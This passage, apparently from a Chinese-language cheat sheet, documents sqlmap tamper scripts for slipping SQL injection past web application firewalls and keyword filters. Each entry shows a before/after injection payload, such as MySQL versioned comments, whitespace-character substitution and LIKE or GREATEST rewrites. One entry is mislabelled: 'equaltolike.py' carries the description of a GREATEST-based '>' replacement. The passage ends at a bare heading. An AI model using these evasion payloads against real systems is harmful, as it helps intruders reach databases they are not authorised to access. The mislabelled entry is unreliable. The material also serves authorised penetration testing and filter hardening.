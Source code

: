 #### **equaltolike.py**

测试通过数据库：MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
作用：将`>`替换为GREATEST，绕过对`>`的过滤
使用脚本前：`tamper('1 AND A > B')`
使用脚本后：`1 AND GREATEST(A,B+1)=A`

#### **ifnull2ifisnull.py**

适用数据库：MySQL、SQLite (possibly)、SAP MaxDB (possibly)
测试通过数据库：MySQL 5.0 and 5.5
作用：将类似于`IFNULL(A, B)`替换为`IF(ISNULL(A), B, A)`，绕过对`IFNULL`的过滤
使用脚本前：`tamper('IFNULL(1, 2)')`
使用脚本后：`IF(ISNULL(1),2,1)`

#### **modsecurityversioned.py**

适用数据库：MySQL
测试通过数据库：MySQL 5.0
作用：过滤空格，使用mysql内联注释的方式进行注入
使用脚本前：`tamper('1 AND 2>1--')`
使用脚本后：`1 /*!30874AND 2>1*/--`

#### **space2mysqlblank.py**

适用数据库：MySQL
测试通过数据库：MySQL 5.1
作用：将空格替换为其他空格符号`('%09', '%0A', '%0C', '%0D', '%0B')`
使用脚本前：`tamper('SELECT id FROM users')`
使用脚本后：`SELECT%0Bid%0DFROM%0Cusers`

#### **modsecurityzeroversioned.py**

适用数据库：MySQL
测试通过数据库：MySQL 5.0
作用：使用内联注释方式`（/*!00000*/）`进行注入
使用脚本前：`tamper('1 AND 2>1--')`
使用脚本后：`1 /*!00000AND 2>1*/--`

#### **space2mysqldash.py**

适用数据库：MySQL、MSSQL
作用：将空格替换为 `--` ，并追随一个换行符
使用脚本前：`tamper('1 AND 9227=9227')`
使用脚本后：`1--%0AAND--%0A9227=9227`

#### **bluecoat.py**

适用数据库：Blue Coat SGOS
测试通过数据库：MySQL 5.1,、SGOS
作用：在sql语句之后用有效的随机空白字符替换空格符，随后用`LIKE`替换`=`
使用脚本前：`tamper('SELECT id FROM users where id = 1')`
使用脚本后：`SELECT%09id FROM users where id LIKE 1`

#### **versionedkeywords.py**
